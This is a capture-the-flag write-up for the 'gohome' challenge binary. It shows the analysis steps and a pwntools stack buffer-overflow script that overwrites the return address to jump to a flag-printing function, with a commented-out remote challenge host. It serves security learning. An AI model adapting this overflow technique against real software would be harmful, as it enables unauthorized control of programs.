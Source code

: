 1. use `file <file>` to take a look. It's a ELF file, not stripped.
```bash
$ file gohome
gohome: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, 
BuildID[sha1]=63cc39d0f4f93acc2ee50813f4f82c8ed43d9135, not stripped
```

2.use `gdb-peda checksec` to make sure whether it have protection of the program. by the result, we know that only NX protection is open.
![Image](https://i.imgur.com/YsoMUcS.png) 


3. `r2 <file>`, `aa`, `afl`, there's some function we can pay attention to. 
![Image](https://i.imgur.com/EFXiT2J.png)


4. first, `s main`, `VV` to take a look.
![Image](https://i.imgur.com/9eNQ6Rq.png)

5. by the code, we know that the program will exit after gets function get our user input. And our input will be put at **var_20h(rpb-0x20)**. Let's go back to see Billyhouse function.

![Image](https://i.imgur.com/RISfNKD.png)

1. we notice that this program will print flag which we want to get. So, what we need to do is to let the program jump here to run this function.

2. count to overwrite the stack and rbp address until the return address. we need to BOF all of them, put the Billyhouse function address to the return address. Bellow is our exploit script.

```python
from pwn import *

r = process('./gohome')
#r = remote('120.114.62.211', 6126)

payload = b'A'*40

r.sendline(payload + p64(0x004006c6))  #if 64 bit ,or 32bit use p32

r.interactive()
```

8. run the program and we can get the flag.